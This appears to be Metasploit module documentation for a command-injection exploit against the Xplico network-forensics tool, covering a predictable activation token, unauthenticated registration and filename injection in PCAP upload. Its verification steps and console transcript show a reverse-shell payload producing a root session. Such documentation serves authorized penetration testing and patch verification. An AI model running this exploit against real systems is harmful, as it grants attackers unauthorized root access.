 ## Vulnerable Application
This module exploits command injection vulnerability. Unauthenticated users can register a new account and then execute a terminal command under the context of the root user.

The specific flaw exists within the Xplico, which listens on TCP port 9876 by default. The goal of Xplico is extract from an internet 
traffic capture the applications data contained. There is a hidden end-point at inside of the Xplico that allow anyone to create
 a new user. Once the user created through /users/register endpoint, it must be activated via activation e-mail. After the registration Xplico try
to send e-mail that contains activation code. Unfortunetly, this e-mail probably not gonna reach to the given e-mail address on most of installation.
But it's possible to calculate exactly same token value because of insecure cryptographic random string generator function usage.

One of the feature of Xplico is related to the parsing PCAP files. Once PCAP file uploaded, Xplico execute an operating system command in order to calculate checksum
of the file. Name of the for this operation is direclty taken from user input and then used at inside of the command without proper input validation.

**Vulnerable Application Installation Steps**

Follow instruction from "from sourceforge" section at following URL. Don't forget install version 1.2.0 instead of 1.0.0. At the time of this writing, installation commands contains command for version 1.0.0 

[http://wiki.xplico.org/doku.php?id=ubuntu](http://wiki.xplico.org/doku.php?id=ubuntu)

You may also give a try to virtualbox image provided by maintainer of Xplico. I've tested this module against Xplico-1.1.0-ubuntu-13.10-i386.ova.
[https://sourceforge.net/projects/xplico/files/VirtualBox%20images/](https://sourceforge.net/projects/xplico/files/VirtualBox%20images/)

Username of the virtualbox image is "ubuntu" and password is "reverse".

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/securityonion_xplico_exec`
- [ ] Set `RHOST`
- [ ] Set `PAYLOAD cmd/unix/reverse_awk`
- [ ] Set `LHOST`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `New user successfully registered` in console.
- [ ] **Verify** that you are seeing `User successfully activated` in console.
- [ ] **Verify** that you are seeing `Successfully authenticated` in console.
- [ ] **Verify** that you are seeing `New Case successfully creted` in console.
- [ ] **Verify** that you are seeing `New Sols successfully creted` in console.
- [ ] **Verify** that you are seeing `PCAP successfully uploaded. Pcap parser is going to start on server side` in console.
- [ ] **Verify** that you are getting `We are at PCAP decoding phase. Little bit more patience...` in console.
- [ ] **Verify** that you have your root shell.

## Scenarios

```
msf > use exploit/linux/http/securityonion_xplico_exec
msf exploit(securityonion_xplico_exec) > set RHOST 12.0.0.30
RHOST => 12.0.0.30
msf exploit(securityonion_xplico_exec) > 
msf exploit(securityonion_xplico_exec) > exploit 

[-] Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
msf exploit(securityonion_xplico_exec) > set payload cmd/unix/
set payload cmd/unix/generic         set payload cmd/unix/reverse_netcat
set payload cmd/unix/reverse_awk     
msf exploit(securityonion_xplico_exec) > set payload cmd/unix/reverse_awk 
payload => cmd/unix/reverse_awk
msf exploit(securityonion_xplico_exec) > set LHOST 12.0.0.1 
LHOST => 12.0.0.1
msf exploit(securityonion_xplico_exec) > exploit 

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: mwbvnyowr
[*] Password: gHPkAvCTXFDVcfTwaAmfoJUoMNHNDIDT
[*] Calculating em_key code of the user
[*] Activating user with em_key = 159d4af63472e2a47e3f3c5c11205a5e
[+] User successfully activated
[*] Authenticating with our activated new user
[+] Successfully authenticated
[*] Creating new case
[+] New Case successfully creted. Our pol_id = 36
[*] Creating new xplico session for pcap
[+] New Sols successfully creted. Our sol_id = 54
[*] Uploading malformed PCAP file
[+] PCAP successfully uploaded. Pcap parser is going to start on server side.
[*] Parsing has started. Wait for parser to get the job done...
[+] We are at PCAP decoding phase. Little bit more patience...
[+] We are at PCAP decoding phase. Little bit more patience...
[+] We are at PCAP decoding phase. Little bit more patience...
[*] Command shell session 1 opened (12.0.0.1:4444 -> 12.0.0.30:39782) at 2017-11-08 14:44:52 +0300

id
uid=0(root) gid=0(root) groups=0(root)
```
